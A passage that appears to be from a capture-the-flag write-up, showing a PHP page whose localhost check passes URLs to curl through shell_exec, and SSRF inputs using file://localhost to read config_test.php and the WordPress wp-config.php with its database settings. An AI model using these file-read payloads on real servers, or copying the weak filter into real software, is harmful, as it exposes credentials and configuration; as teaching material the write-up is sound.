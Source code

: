 Same operation to get the `config_test.php` content:

> file://localhost/var/www/html/config_test.php

```php
<?php
function safe($url)
{
	$tmpurl = parse_url($url, PHP_URL_HOST);
	if($tmpurl != "localhost" and $tmpurl != "127.0.0.1")
	{
		var_dump($tmpurl);
		die("<h1>Only access to localhost</h1>");
	}
	return $url;
}

function getUrlContent($url){
	$url = safe($url);
	$url = escapeshellarg($url);
	$pl = "curl -v ".$url;
	echo $pl;
	$content = shell_exec($pl);
	echo $content;
	return $content;
}
?>
```

No more doubt, we got an SSRF in front of us. The RCE is not possible because of `escapeshellarg();` function in PHP.

### Server Side Request Forgery

So now that I know there is an SSRF, we have to find a compatible service to interact with the system. There is a WordPress installed, then we can think that MySQL is being used. Let's try to get the configuration file from the CMS:

> file://localhost/var/www/html/wp-config.php

```php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wp_db');

/** MySQL database username */
define('DB_USER', 'wp_mysql_user');
```